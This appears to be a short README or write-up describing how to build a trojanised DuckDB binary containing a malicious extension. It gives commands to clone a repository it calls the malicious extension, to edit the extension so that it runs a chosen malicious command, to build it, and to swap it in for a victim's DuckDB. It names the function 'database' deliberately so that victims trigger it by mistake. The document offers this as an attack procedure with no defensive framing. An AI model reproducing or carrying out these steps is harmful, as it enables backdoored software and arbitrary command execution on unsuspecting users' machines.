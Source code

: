 # Install vcpkg
```shell
git clone https://github.com/Microsoft/vcpkg.git
./vcpkg/bootstrap-vcpkg.sh
export VCPKG_TOOLCHAIN_PATH=`pwd`/vcpkg/scripts/buildsystems/vcpkg.cmake
```

## Clone the malicious extension
```shell
git clone --recurse-submodules https://github.com/Tu0Laj1/database_test.git
cd database_test
```

### Modify file
Modify src/quark_extension.cpp,modify the file content to a custom malicious command,and modify the extension function name
```sh
vim src/quack_extension.cpp
```

### Build the malicious extension
Now to build the malicious extension, run:
```sh
make
```

## Running the malicious duckdb
/database_test/build/release/duckdb, a malicious duckdb containing malicious extension programs, can be copied and run on any machine. Attackers can replace the victim's normal duckdb with this malicious duckdb
```sh
cd database_test
./build/release/duckdb
```

### Running the malicious extension
When the victim runs a malicious duckdb and the executed SQL statement contains the function name defined by the attacker, the malicious command will be executed. (Why did I choose 'database'? Because 'database' is a hash conversion function included in many other databases, but it is not available in duckdb, so the probability of victims mistakenly triggering malicious commands will be increased.)
```sh
select database();
```
